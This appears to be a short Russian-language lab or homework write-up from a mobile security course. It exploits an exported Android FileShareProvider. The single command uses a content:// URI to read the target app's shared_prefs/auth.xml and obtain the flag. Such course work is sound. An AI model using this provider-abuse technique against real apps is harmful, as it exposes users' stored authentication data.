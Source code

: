 Смотрим на манифест, видим FileShareProvider.

![image](/resourses/mobile4.png)

Через него нам необходимо прочитать чувствительную информацию. Повторим команду с семинара:

`content read --uri content://com.yandex.shad.homework.file_share/data/data/com.yandex.shad.homework/shared_prefs/auth.xml`

Получим флаг.